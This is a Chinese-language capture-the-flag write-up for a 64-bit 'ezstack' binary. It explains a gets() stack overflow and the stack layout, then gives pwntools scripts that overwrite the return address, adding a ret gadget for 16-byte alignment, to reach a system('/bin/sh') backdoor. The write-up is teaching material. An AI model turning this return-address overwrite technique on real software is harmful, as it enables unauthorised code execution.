










## env

分析下架构



64位小端序，没有栈保护，地址也没有随机化，符号也没有去除，就是栈不能执行，常规的栈溢出应该能做

## 关键代码审计

> main



这里看到gets就会意识到特别简单，妥妥的栈溢出

​`sub_4004a6`​没有必要分析，我看过，作用是**禁用标准输入输出流的缓冲区**，在pwn或re中很常见了，主要是为了让输出和输入快速显示，少了个中间缓冲区的写入输出过程

关键留意gets函数，它的作用是读取一切输入，没有任何长度限制，理论上只要栈上无限空间，就能一直读，它仅仅会在遇到`\n`​或`\0`的时候停止读取，前者是换行符，后者是字符串结束的标志

在本题环境中，gets读取的内容会保存在v4数组中，看了下，它好像只能读取112个字节？温馨提示，这里的`v4[112]`不要盲目信任，需要查看汇编了解系统内部真实申请的缓冲区大小

那么本题的payload已经差不多了解了，将v4数组填充满，然后向上溢出，将函数返回地址覆盖成我们想要的后门函数地址即可，那么我们还要找找有没有这样的函数地址

> evil



这个`system("/bin/sh")`很好找，我们要确定下evil函数的地址，点击tab键可以查看汇编代码



这种预览状态应该是很常见的，可以右键直接进入Text view，否则我们看不到函数地址



可以确定函数地址是`0x400507`

## generate exp

需要仔细查看main函数的栈布局，了解下缓冲区大小，以及有没有多余的寄存器在栈上占位置



可以看到这里的汇编`sub rsp, 70h`就是二进制给v4数组分配的112字节缓冲区大小，再往上看，会看到有个push rbp，这意味着二进制压了一个基址指针，我在另一个题应该有讲过ebp，仔细学的话，会知道ebp占了4字节，在这里的作用仅仅是参考系吧，但是本题是rbp，它占了8字节，二者的差异仅仅是32位和64位的寄存器宽度问题，多见见就记住了

那么本题的栈布局可以画一下：

```bash
高地址
+-------------------------+
|                         |
|     调用者栈帧          |
|                         |
+-------------------------+  <-- 调用 main 之前的栈顶
|     返回地址 (8字节)     |  ←  main 执行完后要返回的地方
+-------------------------+
|     保存的 rbp (8字节)   |  ←  push rbp 保存的调用者 rbp
+-------------------------+  <-- rbp (当前栈帧基址)
|                         |
|     局部变量区域         |
|     var_70 (112字节)    |  ←  rbp - 0x70
|                         |
|     [  gets 写入位置 ]   |  ←  lea rax, [rbp+var_70] 就是这个地址
|                         |
+-------------------------+  <-- rsp (执行 sub rsp, 70h 后)
低地址
```

使用gets写入的时候，从低往高，payload组成应该是这样的：`0x70 padding + 0x8 rbp + evil_addr`

```python
from pwn import *
p = process("./ezstack")
evil = 0x400507 
payload = b'A' * 120 + p64(evil)
p.sendline(payload)
p.interactive()
```

这真的可以成功嘛？



很遗憾失败了，来让我们再检查检查，这里的失败信号貌似有点看不出来为啥，那么检查下我们的payload呢？120+8=128，对啊，128%16=0啊，16字节好像也对齐了呢？

哦，破案了，还记得我讲过的gets遇到什么时候会停止读取嘛？没错，当遇到`\x00`​的时候，但是这里的`p64(0x400507)`可有个大坑



这部分很多都是\x00，自然会被gets忽略啊，那么这里给最多算上3字节好了，120+3=123，自然无法对齐

这个狡辩其实不算是正确答案哈，当然，它绝对有正确的部分，在真正弹地址的时候，你直接给个`p64(0x400507)`没有任何问题，因为ret那边会自动补0到8字节，跳转函数还是能正常进行的，就是由于栈对不齐

> 这里的16字节对齐是64位架构特有的，如果函数执行的时候，地址无法被16整除，那么就会直接报错退出，无法正常执行

想想看，这里直接用ret跳转到evil函数相较正常的函数调用，区别在哪里？

就是call指令，每次调用函数，都是用这个call调用的

call = 压返回地址 + 跳转，ret = 弹地址 + 跳转。用 ret 跳转替代 call 跳转，等于少压了一次返回地址（8 字节），RSP 比正常高 8。一个额外的 ret gadget 刚好把 RSP 再推高 8 字节，将 RSP%16 从 0 扭回到正常的 8，evil 内部的 push rbp 就能把 RSP 带回到 16 对齐，后面所有 call 都不会崩了

因此啊，我们只要再找个ret，把rsp多压一次，再返回那个`p64(0x400507)`就没问题了

遇到这种问题，建议找个工具ROPgadget，这在构造ROP链的时候，特别好用



运气不错，居然真的可以看到一个干净的ret指令

新的payload如下：`0x70 padding + 0x8 rbp + ret_addr + evil_addr`

```python
from pwn import *
p = process("./ezstack")
ret_gadget = 0x400356
evil = 0x400507 
payload = b'A' * 120 + p64(ret_gadget) + p64(evil)
p.sendline(payload)
p.interactive()
```


